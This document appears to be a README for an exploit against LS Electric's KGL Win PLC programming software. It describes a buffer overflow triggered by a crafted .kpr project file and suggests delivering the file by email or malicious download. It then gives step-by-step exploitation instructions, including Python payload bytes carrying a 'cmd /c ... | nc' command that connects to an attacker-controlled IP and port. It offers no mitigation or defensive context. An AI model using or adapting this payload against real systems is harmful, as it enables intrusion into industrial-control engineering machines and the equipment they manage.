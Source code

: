 # KGL Win Software Buffer Overflow Vulnerability

The KGL Win software is a tool provided by LS Electric, a South Korean company that offers PLCs (Programmable Logic Controllers) and other electrical equipment. KGL Win allows you to generate project files for programming PLCs. However, there is a vulnerability in the software that can be exploited through a buffer overflow.

## Understanding the Vulnerability:

The buffer overflow vulnerability in KGL Win arises when the software attempts to load a specially crafted malicious file. This can lead to an overflow of data into adjacent memory space, allowing an attacker to execute malicious code.

The specific attack described here was discovered using fuzzing techniques, which involve sending a large volume of random or carefully constructed inputs to find vulnerabilities in a target application.

To exploit this vulnerability, an attacker would need to entice the user of the target machine to open the malicious file using KGL Win. This can be achieved by sending the file as an email attachment or distributing it through a malicious download, for example.

## Instructions for Exploiting the Vulnerability:

1. **Generating the Malicious Project File**: Create a project file named "Performance_Enchanced_test.kpr" with the ".kpr" file extension. This file will trigger the buffer overflow when opened with KGL Win.

2. **Adjusting Server IP and Port**: If the IP address or port of the server changes, you need to modify the malicious project file accordingly. In this case, we are using the IP address "10.10.1.231" and the port "9999".

3. **Modifying the IP Address and Port**:
   - Open the "new_code_exploit.py" script.
   - Locate the following lines:
     ```python
     cmd = b'\x41\x41\x41\x41'  # pad
     cmd += b'cmd /c echo create | nc 10.10.1.231 6666'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x00\x42\x42\x42'  # pad, 60 bytes
     ```
   - Update the IP address and port in the `cmd` variable as follows:
     ```python
     cmd = b'\x41\x41\x41\x41'  # pad
     cmd += b'cmd /c echo create | nc 10.10.1.231 9999'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x00\x42\x42\x42'  # pad, 60 bytes
     ```
   - No additional padding is required because the `cmd` variable had the same length in both cases.

Once you have followed these instructions, the malicious project file can be used to exploit the buffer overflow vulnerability in KGL Win.
